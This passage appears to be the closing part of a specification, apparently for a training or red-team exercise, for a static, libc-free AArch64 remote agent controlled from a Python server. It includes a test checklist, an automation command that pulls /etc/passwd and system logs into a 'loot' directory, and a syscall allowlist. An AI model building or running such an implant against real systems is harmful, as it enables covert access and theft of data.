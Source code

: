 ### 7.2 Checklist

- [ ] Agent connects and authenticates successfully
- [ ] All  commands respond without crashing
- [ ] Multi-chunk transfers work for large files (>4088 bytes)
- [ ] Error conditions return STATUS_ERROR with message
- [ ] Agent exits cleanly on EXIT command
- [ ] No libc dependencies (`ldd agent` shows "not a dynamic executable")
- [ ] Binary size is minimal (<50KB after stripping)

### 7.3 Automation

See the provided `example.rc` file for how to automate commands:

```bash
python3 server.py 4444 --rc example.rc --downloads-dir ./loot
```

This will:

1. Get current directory (PWD)
2. Download `/etc/passwd`
3. List `/var/log`
4. Tail `/var/log/syslog`

See how  `server.py` handles `--rc`  and `--oncon` connection hooks to optionally extend functionality through automation. I.e. Chain a call of ls and download to get all the files in a directory.

---

## APPENDIX A: APPROVED SYSCALL ALLOWLIST

The following syscalls are guaranteed to be available on target systems. **No other syscalls may be used.**

### Allowed Syscalls (AArch64 Linux)

```
# File Operations
openat        56      # Open file relative to directory
close         57      # Close file descriptor
read          63      # Read from file descriptor
write         64      # Write to file descriptor
readv         65      # Vectored read (scatter)
writev        66      # Vectored write (gather)
pread64       67      # Positional read (no offset change)
lseek         62      # Seek to position in file
fstat         80      # Get file status by fd
newfstatat    79      # Get file status by path
getdents64    61      # Get directory entries
unlinkat      35      # Delete file/directory
renameat2     276     # Rename file atomically
sendfile      71      # Copy between file descriptors
fcntl         25      # File control operations

# Memory Operations
mmap          222     # Map memory (files, anonymous, RWX)
munmap        215     # Unmap memory region
mprotect      226     # Change memory protection flags
brk           214     # Change data segment size (heap)

# Network Operations
socket        198     # Create socket endpoint
bind          200     # Bind socket to address
listen        201     # Listen for connections
accept        202     # Accept incoming connection
```